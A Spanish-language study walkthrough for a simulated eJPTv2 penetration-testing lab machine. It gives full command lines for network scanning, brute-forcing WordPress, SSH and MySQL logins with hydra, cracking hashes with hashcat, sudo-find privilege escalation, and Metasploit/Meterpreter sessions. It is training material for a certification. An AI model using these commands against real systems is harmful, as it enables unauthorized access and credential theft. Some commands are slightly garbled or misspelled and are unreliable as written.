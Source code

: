 # Simulación de examen eJPTv2

Tags: #Nmap #Apache #WordPress #Linux #Dirbuster #Hydra #SearchSploit #SSH #Sudoers #MySQL #Metasploit #HashCat #Meterpreter #Joomla

## Maquina 1 

- IP ->  VMware
- Ports -> TCP (22, 80, 3306), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> OpenSSH 7.9p1 Debian 10+deb10u2
    - 80 -> Apache httpd 2.4.38
    - 3306 -> MySQL 5.5.5-10.3.38-MariaDB-0+deb10u1

## Recon

Con estos dos comandos podemos escanear la red en donde nos encontremos. 
```bash
❯ arp-scan -I ens33 --localnet --ignoredups       # Para hacer un escaneo de la red local, no puedes encontrar mas usuarios despues del router que no pertenecen a tu red
```

```bash 
❯ nmap -sn ❮Target_IP/24❯                         # Usara ARP para escanear la red
``` 

Para ver los puertos y servicios.
```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts       # Escaneo en la Capa 4 del modelo OSI
```

```bash
❯ nmap -sCV -p22,... ❮Target IP❯ -oN targeted
```

### Enumeración del Puerto 80
```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```

Abrimos la pagina web en el navegador, encontramos un Apache como pagina por el puerto 80.

Ahora vamos a enumerar la web, para encontrar mas directorios.
```python
❯ dirb http://<IP>/             # Para encontrar rutas en la pagina web  

# Encontramos varias rutas como 
	# /admin, /Downloads, /wordpress, /server-status, /admin/doc
```

Como encontramos un WordPress, enumeraremos los usuarios con su herramienta. 
```bash
❯ wpscan --url http://URL/wordpress/ -e u                                             # Enumeracion WordPress

	# u = Enumerar usuarios

# Encontramos algunos usuarios como 
	# admin, hugo, philip
```

```bash
❯ wpscan --url http://URL/wordpress/ --passwords /usr/share/wordlists/rockyou.txt      # BruteForce

	# passwords = Enumerar passwords

# Encontramos algunas passwds  
	# admin:password, hugo:9876543210, philip:password

# Tambien nos muestra que el WordPress tiene una version 4.8.22, buscando la version actual que es 6.1
```

* También podríamos enumerar los plugin. 
```bash 
/wordpress/wp-admin/plugins.php
```

En dado caso de que no tengamos esas herramientas, podemos usar Hydra, para encontrar usuarios y sus passwd
Esto se usa en el panel del admin de WP.
```python
❯ hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt http://IP http-post-form '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:S=302' 
❯ hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt http://IP http-post-form '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid user'
# Haremos un ataque de fuerza bruta a WordPress

	# l (ele) = Usuario que en este caso es  'admin'
	# P = Ruta del diccionario
	# log y pwd = Lo podemos encontrar en el apartado de la pagina web 'Ctrl + u' 
	# S = Redireccionamiento con el codigo 302
	# F = Error que nos muestre el panel de autenticacion, por si no sirve con el 'S'
```

Y así logramos entrar al login de la web. 


### Enumeración del Puerto 22

```bash
❯ searchsploit openssh 7.9p1                 # Para buscar un exploit con esa version de OpenSSH, pero como no encontramos usaremos Hydra
```

```python
❯ hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ssh://❮IP❯/ 
# Haremos un ataque de fuerza bruta al puerto SSH

	# ssh = Puerto al que vamos a atacar 22
	# IP = Direccion de la maquina victima
	# P = Ruta del diccionario o 'archivo que contiene passwds'
	# L = Ruta del diccionario o 'archivo que contiene users'

# Encontramos dos usuarios y dos passwd
	# vagrant:vagrant, debian:debian
```

### Enumeración del Puerto 3306

```bash 
❯ mysql -u root -p -h <IP>

	# h = Host
	# u = User
	# p= passwd    -> Passwd por defecto   -> Solo enter, root, admin

# Una vez dentro podemos hacer lo siguiente
	> show databases;                                # Muestra todas las bases de datos existentes
	> use ❮DB_name❯;                                 # Usamos una base de datos especifica
	> show tables;                                   # Miramos las tablas de la base de datos
	> select * from wp-users;                        # Seleccionamos todo de la tabla de 'wp_users'
# Encontramos los usuarios y las passwd con hash
```
Como no conseguimos el acceso podríamos usar Metasploit o Hydra

```python 
❯ hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt mysql://<IP>

# Si nos sale el error 'blocked' es prque no podremos hacer ataques de fuerza bruta
```

Por lo que para romper los hashes de las passwd, lo haremos con Hashcat. **Pero ante debemos de colocar el hash dentro de un archivo llamado hash.txt.**  
```bash 
❯ hashcat -m 400 -a 0 hash.txt /usr/share/wordlists/rockyou.txt 

	# m = 400 = $P%
	# hash.txt = Archivo que contiene el hash
	# Ruta del diccionario 
```


## User

```bash
❯  ssh ❮User❯@❮IP❯                                  # Para conectarnos por ssh en el puerto default 22 con los usuarios obtenidos 
```

## Root

```
❯ contrab -l       # Listas las tareas CRON 
```

```bash 
❯ find / -perm -4000 2>/dev/null                  # Para ver que comandos son SUID, los buscamos desde la raiz 
❯ find / -perm -4000 -ls 2>/dev/null              # Para ver que comandos son SUID, los buscamos desde la raiz y ademas miramos el privilegio
```

```bash
❯ sudo -l                                          # Ver que permisos tenemos en el sudoers (l=ele)

	# (ALL : ALL) ALL
	# (root) NOPASSWD: /usr/bin/find -> Puede ejecutar un comando sin necesidad de password
```

Buscamos en la siguiente pagina:
- **GTFOBins**: [https://gtfobins.github.io](https://gtfobins.github.io/)
* [Find-exploit](https://andreafortuna.org/2018/05/16/exploiting-sudo-for-linux-privilege-escalation/)

```bash 
❯ sudo find /etc/passwd-exec /bin/bash \;
```

### Siendo Root

```bash 
❯ cat /etc/passwd        # Podemos enumerar la cantidad de usuarios, terminan en /bin/bash
❯ cd /home               # Ahi nos salen los dir de cada usuario con 'ls'

❯ cd /var/www/html/wordpress                # Podemos mirar el archivo de configuracion de Wordpress... 
	# wp-config.php               -> Archivo con todas las configuraciones generales
	# wp-settings.php             -> Archivo de configuracion, encargado de los plugins
❯ cd /var/www/html/wordpress/wp-admin       # Directorio que contiene mas informacion como formulario
❯ cd /var/www/html/wordpress/wp-content     # Directorio que contiene los directorios de plugins y los temas.
```

## Metasploit Mysql

```bash 
❯ msfconsole -q                   # q = Quitar el banner de inicio

❯ search mysql_login              # Buscamos el exploit
	❯ use 0 
	❯ show options 
	❯ set RHOSTS 192.168.68.1    # Colocamos la IP de la maquina de atacante
	❯ set PASS_FILE /usr/chare/metasploit-framework/data/wordlists/unix_passwords.txt   # Agregamos la ruta del diccionario de passwd que tengamos en nuestra maquina
	❯ run 

# Si nos sale error, quiere decir que hay una regla que nos bloquea el ataque por fuerza bruta 
```

## Metasploit / Meterpreter SSH

```bash  
# Esto funciona cuando tenemos el usuario y passwd del root 

❯ msfconsole -q                   # q = Quitar el banner de inicio

❯ search ssh_login                # Buscamos el exploit
	❯ use 0                      # Check Scanner
	❯ show options 
	❯ set RHOSTS 192.168.68.1    # Colocamos la IP de la maquina de atacante
	❯ set USERNAME debian
	❯ set PASSWORD debian
	❯ run 
	❯ sessions                   # Miramos si completo la sesion 
	❯ session 1                  # Solicitamos que nos de la session 1 
	❯ /bin/bash -i               # Solicitar una terminal

Con meterpreter
	❯ sessions 
	❯ session -u 1               # Usaremos meterpreter u = Upgrade a la sesion 
	❯ session -k 1               # Cerramos la sesion  k = kill

# Una vez elevada la sesion le volvemos a dar sesiones y ahi nos colocara el meterpreter
	❯ sessions 
	❯ sessions 2                 # Esta el ID de la sesion de Meterpreter
	❯ sysinfo                    # Verificamos que tenemos la sesion 
	❯ background                 # Guardas la sesion en segundo plano 
```

### Pivoting

```bash
# Para saber si se puede hacer Pivoting es colocar le siguiente comando dentro de la maquina victima.

❯ ifconfig         # Para ver la direccion IP de la maquina  
❯ ip a             # Miramos los adaptadores de red y con eso miraremos si hay mas de uno para poder hacer el Pivoting
```